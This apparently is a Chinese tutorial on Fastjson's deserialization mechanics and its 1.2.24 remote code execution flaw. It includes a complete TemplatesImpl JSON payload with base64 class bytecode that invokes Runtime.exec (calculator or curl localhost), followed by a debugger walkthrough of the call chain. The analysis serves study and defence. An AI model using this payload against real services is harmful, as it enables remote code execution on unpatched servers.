

### 一、Fastjson简介

​	Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON  字符串，也可以从 JSON 字符串反序列化到  JavaBean，Fastjson不但性能好而且API非常简单易用，所以用户基数巨大，一旦爆出漏洞其影响对于使用了Fastjson的Web应用来说是毁灭性的。（<font color="red">json传递过程中的反序列化问题，让漏洞利用相对来说比较容易，每一个可以解析json的接口都有可能存在漏洞</font>）

### 二、Fastjson 使用

使用 Fastjson 无非是将类转为 json 字符串或解析 json 转为 JavaBean。

#### 1. 将类转为 json

在这里我们最常用的方法就是 `JSON.toJSONString()` ，该方法有若干重载方法，带有不同的参数，其中常用的包括以下几个：

- 序列化特性：`com.alibaba.fastjson.serializer.SerializerFeature`，可以通过设置多个特性到 `FastjsonConfig` 中全局使用，也可以在使用具体方法中指定特性。
- 序列化过滤器：`com.alibaba.fastjson.serializer.SerializeFilter`，这是一个接口，通过配置它的子接口或者实现类就可以以扩展编程的方式实现定制序列化。
- 序列化时的配置：`com.alibaba.fastjson.serializer.SerializeConfig` ，可以添加特点类型自定义的序列化配置。

### 2. 将 json 反序列化为类

将 json 数据反序列化时常使用的方法为`parse()`、`parseObject()`、`parseArray()`，这三个方法也均包含若干重载方法，带有不同参数：

- 反序列化特性：`com.alibaba.fastjson.parser.Feature`，
- 类的类型：`java.lang.reflect.Type`，用来执行反序列化类的类型。
- 处理泛型反序列化：`com.alibaba.fastjson.TypeReference`。
- 编程扩展定制反序列化：`com.alibaba.fastjson.parser.deserializer.ParseProcess`，例如`ExtraProcessor` 用于处理多余的字段，`ExtraTypeProvider` 用于处理多余字段时提供类型信息。


没咋看懂大佬的图。

这里列举一些 fastjson 功能要点：

​		1.使用 `JSON.parse(jsonString)` 和 `JSON.parseObject(jsonString, Target.class)`，两者调用链一致，前者会在 jsonString 中解析字符串获取 `@type` 指定的类，后者则会直接使用参数中的class。

​		2.fastjson 在创建一个类实例时会通过反射调用类中符合条件的 getter/setter 方法，其中 getter 方法需满足条件：方法名长于 4、不是静态方法、以 `get` 开头且第4位是大写字母、方法不能有参数传入、继承自 `Collection|Map|AtomicBoolean|AtomicInteger|AtomicLong`、此属性没有 setter 方法；setter 方法需满足条件：方法名长于 4，以 `set` 开头且第4位是大写字母、非静态方法、返回类型为 void 或当前类、参数个数为 1 个。具体逻辑在 `com.alibaba.fastjson.util.JavaBeanInfo.build()` 中。（<font color="red">关键在于可以通过反射来调用类中符合条件的getter/setter方法这个让，我们可以有操作的空间，来进行命令执行或者其他的操作</font>）

​		3.使用 `JSON.parseObject(jsonString)` 将会返回 JSONObject 对象，且类中的所有 getter 与setter 都被调用

​		4.如果目标类中私有变量没有 setter 方法，但是在反序列化时仍想给这个变量赋值，则需要使用 `Feature.SupportNonPublicField` 参数。

​		5.fastjson 在为类属性寻找 get/set 方法时，调用函数 `com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()` 方法，会忽略 `_|-` 字符串，也就是说哪怕你的字段名叫 `_a_g_e_`，getter 方法为 `getAge()`，fastjson 也可以找得到，在 1.2.36 版本及后续版本还可以支持同时使用 `_` 和 `-` 进行组合混淆。

​		6.fastjson 在反序列化时，如果 Field 类型为 `byte[]`，将会调用`com.alibaba.fastjson.parser.JSONScanner#bytesValue` 进行 base64 解码，对应的，在序列化时也会进行 base64 编码。

## 三、漏洞分析

### 1. fastjson-1.2.24

​	在2017年3月15日，fastjson官方主动爆出在 1.2.24 及之前版本存在远程代码执行高危安全漏洞。

> 影响版本：`fastjson <= 1.2.24` 描述：fastjson 默认使用 `@type` 指定反序列化任意类，攻击者可以通过在 Java  常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter  方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。此漏洞开启了 fastjson  反序列化漏洞的大门，为安全研究人员提供了新的思路。

**TemplatesImpl 反序列化**

在解释具体利用链之前我们先开pyload

```java
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADIAPgoADwAfCAAgCAAhCgAiACMIACQKACUAJggAJwgAKAgAKQoAKgArCgAqACwHAC0KAAwALgcALwcAMAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAA1TdGFja01hcFRhYmxlBwAvBwAxBwAtAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAKRXhjZXB0aW9ucwcAMgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApTb3VyY2VGaWxlAQAZVGVzdEFic3RyYWN0VHJhbnNsZXQuamF2YQwAEAARAQAWb3BlbiAtYSBDYWxjdWxhdG9yLmFwcAEAB29zLm5hbWUHADMMADQANQEAB1dpbmRvd3MHADEMADYANwEAFmNhbGMgMTIzNDU2Nzg5MDEyMzQ1NjcBAAVMaW51eAEAFGN1cmwgbG9jYWxob3N0Ojk5OTkvBwA4DAA5ADoMADsAPAEAE2phdmEvaW8vSU9FeGNlcHRpb24MAD0AEQEALmNvbS9hbmJhaS9zZWMvY2xhc3Nsb2FkZXIvVGVzdEFic3RyYWN0VHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAQamF2YS9sYW5nL1N0cmluZwEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAKc3RhcnRzV2l0aAEAFShMamF2YS9sYW5nL1N0cmluZzspWgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA9wcmludFN0YWNrVHJhY2UAIQAOAA8AAAAAAAMAAQAQABEAAQASAAAAowACAAQAAAA5KrcAARICTBIDuAAETSwSBbYABpkACRIHTKcADywSCLYABpkABhIJTLgACiu2AAtXpwAITi22AA2xAAEAKAAwADMADAACABMAAAAyAAwAAAANAAQADgAHAA8ADQARABYAEgAcABMAJQAUACgAGAAwABsAMwAZADQAGgA4ABwAFAAAABgABP8AHAADBwAVBwAWBwAWAAALSgcAFwQAAQAYABkAAgASAAAAGQAAAAMAAAABsQAAAAEAEwAAAAYAAQAAACEAGgAAAAQAAQAbAAEAGAAcAAIAEgAAABkAAAAEAAAAAbEAAAABABMAAAAGAAEAAAAmABoAAAAEAAEAGwABAB0AAAACAB4="],"_name":"","_tfactory":{},"_outputProperties":{}}
```

`@type`标注的是需要反序列化的类名`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，`_bytecodes`是经过Base64编码（FastJson会自动解码成byte[]）后的`com.anbai.sec.classloader.TestAbstractTranslet`类字节码，`_name`、`_tfactory`、`_outputProperties`(在后续类实例化时，需要满足一些判断条件所以此处不能为空)

同时值得注意的是，在 Fastjson 中，属性的映射通常是通过遵循 JavaBean 命名规范的 get/set 方法来实现的。Fastjson会根据属性名称，自动匹配对应的 get/set 方法，以完成属性的读取和写入操作。`_bytecodes`成员变量，用于存储类字节码，通过JSON反序列化的方式可以修改该变量值，但因为该成员变量没有可映射的get/set方法所以需要修改JSON库的虚拟化配置，比如Fastjson解析时必须启用`Feature.SupportNonPublicField`、Jackson必须开启`JacksonPolymorphicDeserialization`（调用`mapper.enableDefaultTyping()`），所以利用条件相对较高。

在所有必要参数都传入后，我们需要了解的是以上参数形成的调用链是如何进行自定义类加载的，我们直接定位到 com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，实现了 `Serializable` 接口，因此它可以被序列化，我们来看一下漏洞触发点。上面payload传入了_outputProperties


又因为使用的JSON.*parseObject* 也就是说传入的_outputProperties会调用其映射的get方法


我们在这个位置打上断点进行调试


进入newTransformer()强制步进接着调试。


进入getTransletInstance方法


解释了payload中为何要传入_name 且不能为空，继续步进进入到defineTransletClasses()


通过loader.defineClass(_bytecode[i]);加载字节码



判断加载字节码的类的父类，是否为AbstractTranslet，否则则会在下面抛出异常所有我们构造恶意类的时候情况如下


